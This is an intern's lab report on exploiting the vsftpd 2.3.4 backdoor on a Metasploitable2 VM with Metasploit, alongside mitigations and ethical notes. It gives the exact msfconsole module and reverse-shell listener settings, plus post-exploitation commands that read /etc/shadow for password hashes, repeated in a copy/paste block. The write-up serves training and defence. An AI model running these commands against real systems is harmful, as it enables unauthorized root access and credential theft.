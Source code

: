 # Exploitation with Metasploit — Internship Task

**Date:** 2025-10-18
**Author:** Aman Jiwani (intern)
**Target / Lab:** Metasploitable2 (192.168.56.104)
**Scope:** Exploit a known vulnerability, obtain a reverse shell, and run post‑exploitation commands to gather system information and password hashes. Performed in a controlled lab environment.

---

## Executive summary

This lab demonstrates exploitation of a known backdoor in `vsftpd 2.3.4` on the Metasploitable2 target using the Metasploit Framework. The exploit spawned a reverse/interactive shell. With root privileges, basic system information was collected and the `/etc/shadow` file was inspected as proof of access.

**Impact (lab):** Full compromise of the Metasploitable2 VM (root shell obtained).

**Recommendation (summary):** Patch or remove vulnerable services, restrict network exposure, and follow incident response procedures if this were a production system.

---

## Methodology

Phases followed:

1. Recon & scanning — identify vulnerable service/version (nmap).
2. Exploitation — select and configure Metasploit module.
3. Post‑exploitation — gather sysinfo-equivalent details and dump password hashes (lab proof only).
4. Reporting — document findings and remediation.

---

## Tools used

* `nmap` — service/version discovery
* `msfconsole` (Metasploit Framework) — exploit and session handling
* Standard system commands on compromised host: `id`, `uname -a`, `hostname`, `uptime`, `cat /etc/shadow`

---

## Exploitation steps (commands used)

**Metasploit: configure and run the exploit**

```text
# start msfconsole
msfconsole

# select module
use exploit/unix/ftp/vsftpd_234_backdoor

# configure target and listener
set RHOST 192.168.56.104
set LHOST 192.168.56.105
set LPORT 4444

# run exploit
exploit
```

**Notes:**

* The `vsftpd_234_backdoor` module targets the backdoor present in vsftpd v2.3.4; it spawns an interactive command shell when successful.

---

## Post‑exploitation (commands & rationale)

**Quick system information (equivalent to `sysinfo`)**

```bash
id
uname -a
hostname
uptime
```

* `id` — verify user and group IDs (shows `uid=0(root)` when root)
* `uname -a` — kernel and OS details
* `hostname` — machine identifier
* `uptime` — system run-time (useful for timeline/context)

**Dump password hashes (equivalent to `hashdump`)**
Because the session has root privileges in this lab, `/etc/shadow` is readable:

```bash
cat /etc/shadow
```

**Evidence & notes:** Capture and save terminal output as evidence (sanitized for reports). Do not exfiltrate real credentials; treat any found secrets as sensitive.

---

## Findings & Risk

* **Vulnerable service:** vsftpd 2.3.4 (backdoor) — **Critical**
* **Impact:** Remote code execution → root shell → potential full system compromise.
* **Evidence:** Metasploit module output, interactive shell session, `id` showing `root`, `/etc/shadow` contents accessible.

---

## Mitigations & Recommendations

1. **Patch or remove the vulnerable service** (upgrade vsftpd or replace with a supported secure alternative).
2. **Network controls:** Block or restrict FTP (port 21) to trusted internal hosts only.
3. **Least privilege:** Run services with minimal privileges and avoid running unnecessary services as root.
4. **Monitoring & alerting:** Detect unusual service banners and unexpected shells/listener activity. Alert on access to sensitive files like `/etc/shadow`.
5. **Incident response (if production):** Isolate affected host, collect forensic evidence, rebuild from a trusted image, rotate credentials, and identify root cause and lateral movement.

---

## Artifacts & commands (copy/paste)

```bash
# msfconsole flow
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.104
set LHOST 192.168.56.105
set LPORT 4444
exploit

# post-exploitation verification
id
uname -a
hostname
uptime
cat /etc/shadow
```

---

## Ethical & reporting notes (internship submission)

* Mark this as **lab-only / authorized** in the internship report.
* Include timestamps, the lab target IP, and sanitized output screenshots.
* Redact any real credentials and avoid sharing `/etc/shadow` contents in raw form in public repos.
* If this were a real compromise, follow incident response and legal reporting requirements.

---

*End of Exploitation with Metasploit — internship task.*
